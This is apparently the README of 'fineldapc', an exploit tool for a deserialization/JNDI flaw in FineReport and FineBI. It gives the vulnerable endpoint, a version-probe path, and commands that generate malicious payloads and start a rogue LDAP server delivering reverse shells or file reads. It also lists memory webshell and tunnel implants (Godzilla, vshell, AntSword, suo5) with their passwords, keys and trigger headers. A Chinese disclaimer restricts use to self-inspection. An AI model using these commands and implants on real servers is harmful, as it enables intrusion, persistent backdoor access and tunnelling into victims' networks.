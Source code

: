 ### fineldapc

```shell
   ▄████████  ▄█  ███▄▄▄▄      ▄████████  ▄█       ████████▄     ▄████████    ▄███████▄  ▄████████
  ███    ███ ███  ███▀▀▀██▄   ███    ███ ███       ███   ▀███   ███    ███   ███    ███ ███    ███
  ███    █▀  ███▌ ███   ███   ███    █▀  ███       ███    ███   ███    ███   ███    ███ ███    █▀
 ▄███▄▄▄     ███▌ ███   ███  ▄███▄▄▄     ███       ███    ███   ███    ███   ███    ███ ███
▀▀███▀▀▀     ███▌ ███   ███ ▀▀███▀▀▀     ███       ███    ███ ▀███████████ ▀█████████▀  ███
  ███        ███  ███   ███   ███    █▄  ███       ███    ███   ███    ███   ███        ███    █▄
  ███        ███  ███   ███   ███    ███ ███▌    ▄ ███   ▄███   ███    ███   ███        ███    ███
  ███        █▀    ▀█   █▀    ██████████ █████▄▄██ ████████▀    ███    █▀   ▄████▀      ████████▀
                                         ▀                                      power by unam4

漏洞路径: /webroot/decision/remote/design/channel

加载jsp依赖： /webroot/decision/file?path=org.apache.jasper.servlet.JasperInitializer&type=class

获取版本: /webroot/decision/system/info

生成恶意bin：java -jar fineldapc.jar -bin  [rmi|ldap]://host:port/xxx

开启恶意ldap：java -jar fineldapc.jar -ldap <port> <CLASS:classname>/<resershell:ip#port>/<FILE:filepath>

classname: (fineBI都可以使用，finereport请用jsp类型)

tomcatecho (head头 Etags: base64enc(Command))
godzilla_mem    加密器: JAVA_AES_BASE64 密码: Hwtfhlitg 密钥: Loklewkvqbo 请求路径: /* 请求头: User-Agent: Orjuagk
suo5    (suo5 -d -l 0.0.0.0:7788 --auth test:test123 --ua 'Nuexq' -t http(s)://ip:port/webroot/decision)
vshell(agent): 加密器: JAVA_AES_BASE64 密码: Iddzfpe 密钥: Septtdzjura 请求路径: /* 请求头: Referer: Aiskhs 脚本类型: JSP
anstword  类型：jspjs 密码: b
suo5jsp: suo5 -t http://10.211.55.2:8075/webroot/tunnel.jsp
godzillajsp: 加密器: JAVA_AES_BASE64 密码: fine 密钥: ldapc 请求路径: /*

重要: !!!
免责声明 该工具仅用于安全自查检测
由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。
该工具只授权于企业内部进行问题排查，请勿用于非法用途，请遵守网络安全法，否则后果作者概不负责
```
### 原理
https://unam4.github.io/2024/06/23/%E6%9F%90%E6%8A%A5%E8%A1%A8%E6%9C%80%E6%96%B0%E5%8F%8D%E5%BA%8F%E5%88%97%E6%BC%8F%E6%B4%9E/
https://unam4.github.io/2024/06/03/%E6%96%B0jdk%E5%8E%9F%E7%94%9F%E5%85%A5%E5%8F%A3%E5%88%B0jndi/

### 免责声明
该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。

该工具只授权于企业内部进行问题排查，请勿用于非法用途，请遵守网络安全法，否则后果作者概不负责
